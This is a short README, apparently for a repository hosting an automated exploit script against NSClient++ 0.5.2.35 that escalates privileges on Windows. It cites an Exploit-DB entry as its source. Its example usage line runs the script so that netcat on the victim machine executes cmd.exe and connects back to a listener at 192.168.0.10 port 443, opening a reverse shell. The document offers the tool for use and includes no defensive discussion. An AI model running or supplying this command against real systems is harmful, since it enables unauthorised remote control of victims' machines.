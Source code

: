 # NSClient 0.5.2.35 Exploit / Privilege-Escalation
Automated way of exploiting vulnerable NSClient++ 0.5.2.35 for privilege escalation.

Based on Steps described here: https://www.exploit-db.com/exploits/46802
 
 
Example Usage (opening reverse shell using netcat on the victim machine)
```
./exploit.py "C:\\Temp\\nc.exe 192.168.0.10 443 -e cmd.exe" https://192.168.0.100:443 supersecurepassword
 ```
